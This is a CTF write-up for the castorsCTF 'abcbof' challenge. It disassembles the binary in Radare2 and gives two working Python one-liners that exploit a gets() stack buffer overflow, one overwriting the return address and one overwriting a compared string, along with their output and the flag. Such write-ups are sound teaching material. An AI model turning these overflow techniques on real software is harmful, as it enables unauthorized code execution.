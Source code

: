 # abcbof

## Solution

We can disassemble the binary and list all functions using a tool like Radare2.

```
[greenavocado@greenavocado-pc abcbof]$ r2 abcbof
 -- Beer in mind.
[0x00400640]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400640]> afl
0x00400640    1 42           entry0
0x00400680    4 42   -> 37   sym.deregister_tm_clones
0x004006b0    4 58   -> 55   sym.register_tm_clones
0x004006f0    3 34   -> 29   sym.__do_global_dtors_aux
0x00400720    1 7            entry.init0
0x00400870    1 2            sym.__libc_csu_fini
0x00400727    5 102          sym.get_flag
0x00400620    1 6            sym.imp.fopen
0x00400630    1 6            sym.imp.exit
0x004005b0    1 6            sym.imp.putchar
0x004005f0    1 6            sym.imp.fgetc
0x004005d0    1 6            sym.imp.fclose
0x00400874    1 9            sym._fini
0x00400800    4 101          sym.__libc_csu_init
0x00400670    1 2            sym._dl_relocate_static_pie
0x0040078d    3 100          main
0x004005e0    1 6            sym.imp.printf
0x00400610    1 6            sym.imp.gets
0x00400600    1 6            sym.imp.strcmp
0x004005c0    1 6            sym.imp.puts
0x00400588    3 23           sym._init
[0x00400640]>
```

It's worth noting the ```sym.get_flag``` function, as it's likely our "win" function.

```
0x00400727    5 102          sym.get_flag
```

We can verify this by disassembling the function.

```asm
[0x00400640]> pdf @ sym.get_flag
            ; CALL XREF from main @ 0x4007d9
┌ 102: sym.get_flag ();
│           ; var uint32_t c @ rbp-0x9
│           ; var file*stream @ rbp-0x8
│           0x00400727      55             push rbp
│           0x00400728      4889e5         mov rbp, rsp
│           0x0040072b      4883ec10       sub rsp, 0x10
│           0x0040072f      488d35520100.  lea rsi, [0x00400888]       ; "r" ; const char *mode
│           0x00400736      488d3d4d0100.  lea rdi, str.flag.txt       ; 0x40088a ; "flag.txt" ; const char *filename
│           0x0040073d      e8defeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x00400742      488945f8       mov qword [stream], rax
│           0x00400746      48837df800     cmp qword [stream], 0
│       ┌─< 0x0040074b      7515           jne 0x400762
│       │   0x0040074d      bf01000000     mov edi, 1                  ; int status
│       │   0x00400752      e8d9feffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from sym.get_flag @ 0x400775
│      ┌──> 0x00400757      0fbe45f7       movsx eax, byte [c]
│      ╎│   0x0040075b      89c7           mov edi, eax                ; int c
│      ╎│   0x0040075d      e84efeffff     call sym.imp.putchar        ; int putchar(int c)
│      ╎│   ; CODE XREF from sym.get_flag @ 0x40074b
│      ╎└─> 0x00400762      488b45f8       mov rax, qword [stream]
│      ╎    0x00400766      4889c7         mov rdi, rax                ; FILE *stream
│      ╎    0x00400769      e882feffff     call sym.imp.fgetc          ; int fgetc(FILE *stream)
│      ╎    0x0040076e      8845f7         mov byte [c], al
│      ╎    0x00400771      807df7ff       cmp byte [c], 0xff
│      └──< 0x00400775      75e0           jne 0x400757
│           0x00400777      488b45f8       mov rax, qword [stream]
│           0x0040077b      4889c7         mov rdi, rax                ; FILE *stream
│           0x0040077e      e84dfeffff     call sym.imp.fclose         ; int fclose(FILE *stream)
│           0x00400783      bf00000000     mov edi, 0                  ; int status
└           0x00400788      e8a3feffff     call sym.imp.exit           ; void exit(int status)
[0x00400640]>
```

As you can see, it opens the flag file and reads it one character at a time using ```fgetc``` and printing it using ```putchar()```.

With this in mind, we note the address of the function, which is ```0x00400727```.
We then proceed to disassembling the ```main``` function.

```asm
[0x00400640]> pdf @ main
            ; DATA XREF from entry0 @ 0x40065d
┌ 100: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x110
│           ; var char *s2 @ rbp-0x10
│           0x0040078d      55             push rbp
│           0x0040078e      4889e5         mov rbp, rsp
│           0x00400791      4881ec100100.  sub rsp, 0x110
│           0x00400798      488d3df90000.  lea rdi, str.Hello_everyone__say_your_name: ; 0x400898 ; "Hello everyone, say your name: " ; const char *format
│           0x0040079f      b800000000     mov eax, 0
│           0x004007a4      e837feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x004007a9      488d85f0feff.  lea rax, [s]
│           0x004007b0      4889c7         mov rdi, rax                ; char *s
│           0x004007b3      b800000000     mov eax, 0
│           0x004007b8      e853feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004007bd      488d45f0       lea rax, [s2]
│           0x004007c1      4889c6         mov rsi, rax                ; const char *s2
│           0x004007c4      488d3ded0000.  lea rdi, str.CyberCastors   ; 0x4008b8 ; "CyberCastors" ; const char *s1
│           0x004007cb      e830feffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│           0x004007d0      85c0           test eax, eax
│       ┌─< 0x004007d2      750a           jne 0x4007de
│       │   0x004007d4      b800000000     mov eax, 0
│       │   0x004007d9      e849ffffff     call sym.get_flag
│       │   ; CODE XREF from main @ 0x4007d2
│       └─> 0x004007de      488d3de00000.  lea rdi, str.You_lose       ; 0x4008c5 ; "You lose!" ; const char *s
│           0x004007e5      e8d6fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004007ea      b800000000     mov eax, 0
│           0x004007ef      c9             leave
└           0x004007f0      c3             ret
[0x00400640]>
```

Theres a call to ```strcmp()``` which compares "CyberCastors" to a string at ```rbp-0x10```.
If the compare succeeds, the function calls ```sym.get_flag```.
However, there's no function that writes to this address.

We can also see that the function calls ```gets()``` which does no bounds checks on user input, allowing us to write past buffers.
There are two methods we can use to exploit this call and print the flag.

### Overwriting the return address

We know from Radare2 that ```gets()``` will write our input to ```rbp-0x110```.
Therefore, writing 0x110+8 (280) bytes will overwrite ```rbp``` and another 8 bytes would over write the return address.
If we overwrite the return address with the address of the flag function, the program should print the flag.

```
python -c "import sys; sys.stdout.buffer.write(b'\x41' * 280 + b'\x27\x07\x40\x00\x00\x00\x00\x00')" | ./abcbof
```

Here's the output:

```
[greenavocado@greenavocado-pc abcbof]$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * 280 + b'\x27\x07\x40\x00\x00\x00\x00\x00')" | ./abcbof
Hello everyone, say your name: You lose!
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

### Overwriting ```rbp-0x10```

Instead of overwriting the return address, because the string being compared is located on under the address used by ```gets()```, we can also overwrite this variable with the correct string.

The start of the string being compared is located 0x100 (256) bytes after the address used by ```gets()```.
Therefore, if we fill the first variable by writing 256 arbitrary bytes, we can write into the address of the second variable.

```
python -c "print('A' * 256 + 'CyberCastors')" | ./abcbof
```

Here's the output:

```
[greenavocado@greenavocado-pc abcbof]$ python -c "print('A' * 256 + 'CyberCastors')" | ./abcbof
Hello everyone, say your name: castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

## Flag

```castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}```

